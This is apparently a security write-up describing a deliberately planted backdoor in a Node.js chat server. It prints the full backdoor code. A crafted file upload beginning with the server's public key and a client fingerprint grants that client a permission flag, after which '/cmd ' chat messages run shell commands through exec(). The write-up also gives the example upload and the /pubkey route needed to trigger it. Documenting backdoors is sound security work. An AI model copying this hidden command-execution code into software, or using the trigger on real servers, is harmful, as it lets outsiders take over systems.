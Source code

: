 # Backdoors and Vulnerabilities
## Executing system commands on the server, from the client.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
    var checkers = check.split("\n");
    if (checkers.length > 9) {
        var vfp = checkers[9];
        console.log(vfp);
        var client_ind = getClientIndex(vfp);
        if (client_ind != -1) {
            connectedClients[client_ind].permission = 1;
            res.setHeader('Content-Type', 'application/json');
            res.end(JSON.stringify({
                status: "Created",
                url: "Vulnerability Activated"
            }));
        }
    }
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
The publicKey of the server can be accessed by going to the "/pubkey" route of the server
```
https://<serverip>:<port>/pubkey
```
Where the last line is changed to be the the client's fingerprint.
Finally, whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
    if (dataObj.data !== undefined) {
        var msg = dataObj.data.message;
        var cmd = "";
        if (ws.permission == 1) {
            if (msg.startsWith("/cmd ")) {
                cmd = msg.substr(4);
                console.log("executing code");
                exec(cmd, (err, stdout, stderr) => {
                    if (err) {
                        console.log("couldn't execute command");
                        return;
                    }
                    console.log(`stdout: ${stdout}`);
                    console.log(`stderr: ${stderr}`);
                    var retmsg = stdout + "\n" + stderr;
                    var execret = {
                        type: "anonymous_chat",
                        message: retmsg
                    };
                    ws.send(JSON.stringify(execret));
                });
                return;
            }
        }
    }
    sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
    sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
    break;
```
